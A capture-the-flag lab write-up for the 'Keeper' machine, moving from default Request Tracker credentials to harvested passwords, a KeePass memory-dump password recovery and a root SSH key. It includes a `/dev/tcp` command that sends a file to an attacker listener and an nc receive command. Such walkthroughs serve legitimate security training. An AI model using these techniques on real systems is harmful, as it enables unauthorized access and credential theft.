







**Target IP:** `10.129.13.99`

## Enumeration



The scan reveals the following services:

- OpenSSH 8.9p1
- nginx 1.18.0
- Request Tracker 4.4.4+dfsg-2ubuntu1, accessible at `http://tickets.keeper.htb/rt/`



The Request Tracker instance accepts the default credentials:

- **User:** `root`
- **Password:** `password`

## Foothold

Browsing the user administration panel at `http://tickets.keeper.htb/rt/Admin/Users/` reveals stored user credentials.




**Credentials obtained:**
- **User:** `lnorgaard`
- **Password:** `Welcome2023!`

## Privilege Escalation

A ticket attachment, `RT30000.zip`, is transferred from the target to the local machine for offline analysis:

On the target:
```bash
cat RT30000.zip > /dev/tcp/10.10.14.133/9001
```

On the attacking machine:
```bash
nc -lnvp 9001 > RT30000.zip
```



The archive contains a KeePass database file. Its hash is extracted for offline cracking:

```bash
keepass2john passcodes.kdbx > keepasshash
```

Standard wordlist attacks fail, so the [keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper) tool is used instead, which exploits a KeePass memory vulnerability to recover partial password fragments.



This reveals a potential password: `dgrød med fløde`. Testing it directly fails, and `kpcli` confirms no match.

A quick search clarifies the correct Danish spelling:


Trying the corrected version succeeds:

```
rødgrød med fløde
```


Inside the database is an SSH private key. It is converted to OpenSSH format and used to authenticate as root:

```bash
puttygen ssh_key_file -O private-openssh -o id_rsa
```

Connecting with the converted key grants a root shell and access to the final flag.